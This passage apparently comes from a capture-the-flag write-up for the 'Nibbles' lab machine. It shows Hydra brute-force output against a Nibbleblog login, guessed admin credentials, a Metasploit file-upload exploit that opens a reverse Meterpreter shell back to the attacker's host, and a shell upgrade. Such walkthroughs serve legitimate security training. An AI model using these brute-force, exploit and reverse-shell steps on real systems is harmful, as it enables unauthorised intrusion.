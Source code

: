 ```
[80][http-post-form] host: 10.10.10.75   login: admin   password: 1234
[80][http-post-form] host: 10.10.10.75   login: admin   password: 12345
[80][http-post-form] host: 10.10.10.75   login: admin   password: dragon
[80][http-post-form] host: 10.10.10.75   login: admin   password: password
[80][http-post-form] host: 10.10.10.75   login: admin   password: letmein
[80][http-post-form] host: 10.10.10.75   login: admin   password: 696969
[80][http-post-form] host: 10.10.10.75   login: admin   password: michael
[80][http-post-form] host: 10.10.10.75   login: admin   password: football
[80][http-post-form] host: 10.10.10.75   login: admin   password: monkey
[80][http-post-form] host: 10.10.10.75   login: admin   password: abc123
[80][http-post-form] host: 10.10.10.75   login: admin   password: mustang
1 of 1 target successfully completed, 16 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-11 21:23:34
```

This is weird. Going back to the page I randomly see "Nibbleblog security error - Blacklist protection". Aha, there is a brute-force protection in place and that must have messed with Hydra in some way. 

So how should we approach this. I could enumerate the application some more and hope to find a password in a config file somewhere. 

However after throwing some passwords manually on the login I get in. Username: admin Password: nibbles.

We can now use the exploit on the application

```
msf exploit(multi/http/nibbleblog_file_upload) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Sending stage (37775 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.75:51524) at 2018-11-11 21:33:29 +0100
[+] Deleted image.php

meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > 
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

From our Meterpreter shell we can spawn a linux shell on the box

We can then type "bash -i" to get a proper bash prompt.

```
meterpreter > shell                                                                                                                                                                                          
Process 31237 created.        

bash -i                                                                                                                                                                                                      
bash: cannot set terminal process group (1320): Inappropriate ioctl for device                                                                                                                               
```